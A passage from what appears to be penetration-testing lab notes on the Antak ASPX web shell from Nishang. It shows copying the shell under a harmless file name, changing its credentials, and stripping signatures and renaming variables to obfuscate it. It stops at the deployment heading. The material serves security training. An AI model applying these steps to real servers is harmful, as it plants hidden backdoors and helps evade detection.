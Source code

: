**Security Features:**
- **Authentication**: Built-in user/password protection
- **Access control**: Restricted access to authorized users
- **Session management**: Secure session handling

### Working with Antak

#### File Location and Setup

**Default Location:**
```bash
/usr/share/nishang/Antak-WebShell/
├── antak.aspx          # Main web shell file
└── Readme.md          # Documentation
```

**File Listing:**
```bash
ls /usr/share/nishang/Antak-WebShell
antak.aspx  Readme.md
```

#### Preparation and Customization

**Step 1: Copy for Modification**
```bash
cp /usr/share/nishang/Antak-WebShell/antak.aspx /home/administrator/Upload.aspx
```

**Step 2: Configure Authentication**
```csharp
// Line 14 - Modify credentials
if (Request.Form["userpassword"] == "htb-student" && Request.Form["password"] == "htb-student")
{
    // Original example
    if (Request.Form["userpassword"] == "Disclaimer" && Request.Form["password"] == "ForLegitUseOnly")
}
```

**Step 3: Security Hardening**
```csharp
// Remove identifying information
/*
    Antak Webshell
    Author: nikhil_mitt
    http://www.labofapenetrationtester.com
*/

// Remove ASCII art and obvious signatures
// Change variable names for obfuscation
// Modify interface styling and text
```

### Practical Antak Deployment
